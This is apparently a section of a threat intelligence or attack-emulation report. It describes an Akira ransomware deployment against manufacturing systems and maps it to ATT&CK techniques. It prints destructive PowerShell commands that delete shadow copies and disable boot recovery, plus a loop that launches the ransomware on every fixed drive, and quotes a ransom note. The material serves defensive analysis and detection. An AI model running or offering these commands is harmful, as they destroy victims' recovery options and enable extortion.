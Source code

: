 **Source: ATT&CK data component File Access for technique T1005**

### 3.6. Ransomware Deployment and Production Encryption

| **Timestamp** | Day 4, 02:30 |
|---|---|
| **Techniques** | T1486 Data Encrypted for Impact to achieve TA0040 Impact<br>T1059.001 PowerShell to achieve TA0002 Execution |
| **Target tech** | Manufacturing Production Systems |

Akira executed the final ransomware deployment phase targeting manufacturing production systems for maximum operational disruption. The threat actors utilized sophisticated hybrid encryption combining ChaCha20 stream cipher with RSA public-key cryptosystem optimized for rapid deployment across manufacturing networks.

This final phase demonstrates the campaign's strategic objectives focused on production disruption and financial extortion rather than traditional data theft, with specific targeting of manufacturing systems critical to operational continuity.

**Forensic Evidence - Ransomware Production Deployment:**
```powershell
# Akira ransomware deployment commands observed
# Delete manufacturing system recovery options
vssadmin delete shadows /all /quiet
wmic shadowcopy delete
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no

# Manufacturing-specific system targeting
Get-WmiObject -Class Win32_LogicalDisk | Where-Object {$_.DriveType -eq 3} | ForEach-Object {
    $driveLetter = $_.DeviceID
    Start-Process "akira.exe" -ArgumentList "$driveLetter --manufacturing-mode" -NoNewWindow
}
```

**Manufacturing System Encryption Evidence:**
```
Encrypted Manufacturing Systems:
Primary Targets:
- C:\Production\SCADA_Configurations\ → C:\Production\SCADA_Configurations\.akira
- D:\Engineering\CAD_Files\ → D:\Engineering\CAD_Files\.akira
- E:\Quality\QC_Procedures\ → E:\Quality\QC_Procedures\.akira
- F:\Manufacturing\MES_Data\ → F:\Manufacturing\MES_Data\.akira

Production System Impact:
- Manufacturing Execution System (MES): OFFLINE
- SCADA Primary Controller: COMMUNICATION_LOST
- Quality Control Database: INACCESSIBLE
- Engineering CAD Systems: ENCRYPTED
- Production Historian: DATA_UNAVAILABLE
```

**Ransom Note Evidence:**
```
Manufacturing-Specific Ransom Note (README_AKIRA_MANUFACTURING.txt):
"YOUR MANUFACTURING PRODUCTION SYSTEMS HAVE BEEN ENCRYPTED

Production lines OFFLINE - Quality systems INACCESSIBLE
Engineering data ENCRYPTED - Manufacturing procedures UNAVAILABLE

We understand manufacturing downtime costs $50,000+ per hour
Quick payment ensures rapid decryption and production resumption

Contact: akira_manufacturing@[REDACTED].onion
Payment: [REDACTED] Bitcoin to resume production operations"
```
